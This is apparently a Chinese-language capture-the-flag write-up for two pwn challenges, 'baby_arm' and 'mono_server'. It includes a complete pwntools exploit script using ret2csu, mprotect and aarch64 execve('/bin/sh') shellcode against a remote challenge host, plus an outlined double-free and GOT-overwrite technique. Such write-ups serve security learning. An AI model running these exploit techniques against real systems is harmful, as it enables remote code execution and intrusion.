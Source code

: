 ## pwn
### baby_arm
arm架构的栈溢出。一开始先可以写bss，写上shellcode，然后想栈溢出直接跳转到bss，因为发现本地qemu执行时并没有开nx。但是远程这样并不行，执行会报错，并且把错误信息打出`./qemu-... -nx pwn...` 自己的qemu好像并没有这功能，不知道是不是主办方自己给qemu打了patch。刚好又发现程序里有一个mprotect函数，利用ret2csu调用mprotec把bss变成可执行段，然后正常执行shellcode。

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
context.log_level="debug"
pwn_file="./pwn"
elf=ELF(pwn_file)
libc=ELF("./bc.so.6")
#heap_add=0
#stack_add=0
if len(sys.argv)==1:
    r=remote("127.1",20001)
else:
    r=remote("106.75.126.171",33865)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    #log.debug("stack add:0x%x"%stack_add)
    #log.debug("heap add:0x%x"%heap_add)
    #log.debug("libc add:0x%x"%libc.address)
    pause()

code="""
    mov    x8, SYS_execve
    mov    x2, xzr           // NULL
    mov    x1, xzr           // NULL
    BL    here
    .ascii "/bin/sh"
    .byte 0x0 
here:
    mov    x0,x30
    svc    0
"""
import string
sh=asm(code,arch="aarch64")
r.sendafter("Name:",sh+p64(0x400860))
f={
        0:p64(0)+p64(1),
        0x10:p64(0x411068+len(sh))+p64(0x7),
        0x20:p64(0x1000)+p64(0x411000),
        0x30:p64(0x40f500)+p64(0x4007D4),
}
r.send("a"*0x48+p64(0x4008CC)+p64(0x40f500)+p64(0x4008AC)+fit(f)+"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRST"+p64(0x411068))
r.interactive()
```
### mono_server
比赛后才写出来。
由于delete的时候会延时一秒free，所以可以race出double free出来。 但是libc又不好leak，思路如下
- 先double free出0x40的chunk用来在got上申请假chunk，这时候因为没有libc的地址，所以留着一个double free备用  
- 将数组清空，然后double free出0x30的chunk，伪造chunk改临近name指针，leak出got表
- 利用0x40的堆块修改atoi的got表为system
